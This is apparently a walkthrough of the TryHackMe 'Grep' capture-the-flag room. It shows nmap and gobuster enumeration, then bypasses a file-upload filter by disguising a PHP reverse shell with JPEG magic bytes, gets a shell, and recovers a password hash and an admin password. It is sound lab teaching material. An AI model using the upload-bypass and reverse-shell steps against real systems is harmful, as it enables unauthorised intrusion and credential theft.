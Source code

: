 ```yaml
---
title: "Grep"
date: 2025-02-20
image: /assets/img/tryhackme/Grep/Grep_image.jpg
description: Writeup of the TryHackMe-CTF Grep
categories: [TryHackMe, Easy]
tags: [linux, web]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Grep</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>A challenge that tests your reconnaissance and OSINT skills.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/greprtp">https://tryhackme.com/room/greprtp</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Grep.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.28.42            
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 05:01 EST
  Nmap scan report for 10.10.28.42
  Host is up (0.042s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  443/tcp   open  https
  51337/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,443,51337 10.10.28.42
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 05:04 EST
  Nmap scan report for 10.10.28.42
  Host is up (0.042s latency).

  PORT      STATE SERVICE  VERSION
  22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 08:d9:c8:27:bc:25:ac:20:18:38:da:b7:bb:dd:12:17 (RSA)
  |   256 e9:9c:bd:70:39:8e:86:d0:30:aa:83:49:be:5b:b7:3c (ECDSA)
  |_  256 14:ec:b2:de:68:df:bb:89:75:ba:48:cf:b2:2c:b2:2c (ED25519)
  80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  443/tcp   open  ssl/http Apache httpd 2.4.41
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | tls-alpn: 
  |_  http/1.1
  | ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
  | Not valid before: 2023-06-14T13:03:09
  |_Not valid after:  2024-06-13T13:03:09
  |_ssl-date: TLS randomness does not represent time
  |_http-title: 403 Forbidden
  51337/tcp open  http     Apache httpd 2.4.41
  |_http-title: 400 Bad Request
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  Service Info: Host: ip-10-10-28-42.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/
  Nmap done: 1 IP address (1 host up) scanned in 26.93 seconds
```
From here I proceeded the analysis port by port.

## Port 443 Analysis

I started by checking the certificate and found a domain name `grep.thm`:

![Certifcate domain](/assets/img/tryhackme/Grep/thm_grep_1.jpg)

After adding it into my `hosts` file I was able to access the webpage. The website had two options `Register` and `Login`, so I went for `Register`. After I inserted something random I got an error message:

![Original API key](/assets/img/tryhackme/Grep/thm_grep_2.jpg)

Since projects are mostly hosted on github I searched for the `SearchME` and found a repository that appeared to be related to the CTF. I examined `register.php` for modifications, where the valid API key was likely stored. After a while I found the valid key:

![Registration Process](/assets/img/tryhackme/Grep/thm_grep_3.jpg)

By intercepting the registration process, I was able to modify the API key, successfully register, and retrieve the flag. I continued with a directory enumeration to gain more insights into the application:

```bash
$ gobuster dir --no-tls-validation --url https://grep.thm/public/html/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     https://grep.thm/public/html/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              html,php,txt
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.html                (Status: 403) [Size: 274]
  /.php                 (Status: 403) [Size: 274]
  /index.php            (Status: 200) [Size: 1471]
  /login.php            (Status: 200) [Size: 1981]
  /register.php         (Status: 200) [Size: 2346]
  /admin.php            (Status: 403) [Size: 0]
  /upload.php           (Status: 403) [Size: 0]
  /logout.php           (Status: 200) [Size: 154]
  /dashboard.php        (Status: 403) [Size: 0]
```

The `/upload.php` endpoint seemed interesting, but when I tried to upload a PHP reverse shell I, encountered the following error message:

```json
{"error":"Invalid file type. Only JPG, JPEG, PNG, and BMP files are allowed."}
```

To bypass the filter I changed the magic numbers of the php reverse shell using <a href="https://hexed.it/">hexed.it</a> to look like a JPG file:

```bash
$ file shell.php
shell.php: JPEG image data
$ xxd shell.php | head
00000000: ffd8 ffe0 0010 4a46 3c3f 7068 700a 2f2f  ......JF<?php.//
00000010: 2070 6870 2d72 6576 6572 7365 2d73 6865   php-reverse-she
00000020: 6c6c 202d 2041 2052 6576 6572 7365 2053  ll - A Reverse S
```

After uploading the file again the response looks good: 

```json
{"message":"File uploaded successfully."}
```

Through manual exploration, I located the upload directory and the uploaded PHP file at:

```html
https://grep.thm/api/uploads/
```

I started the reverse shell and received the connection. Since a flag wasn't required for this CTF I proceeded in the website directory. My focus was on database credentials or similar information, as I needed to find the admin's email and password. In the website directory I found a backup directory with a sql script:

```bash
www-data@ip-10-10-8-62:/var/www/backup$ ls
	users.sql
```

In the script, I found an interesting section:

```sql
[...]
INSERT INTO `users` (`id`, `username`, `password`, `email`, `name`, `role`) VALUES
(1, 'test', '$2y$10$dE6VAdZJCN4repNAFdsO2ePDr3StRdOhUJ1O/41XVQg91qBEBQU3G', 'test@grep.thm', 'Test User', 'user'),
(2, 'admin', '[removed]', '[removed]', 'Admin User', 'admin');
[...]
```

I saved the admin password hash to a file and ran Hashcat to crack it. After some time, I aborted the process and moved on. I checked the last port which I didn't had a look on. In the certificate was another URL called: `leakchecker.grep.thm`. After adding the URL to the hosts file, I was able to access the site. The application asked for an email adress. I entered the previously found email and retrieved the password:

![Leakchecker](/assets/img/tryhackme/Grep/thm_grep_4.jpg)

solved! :)
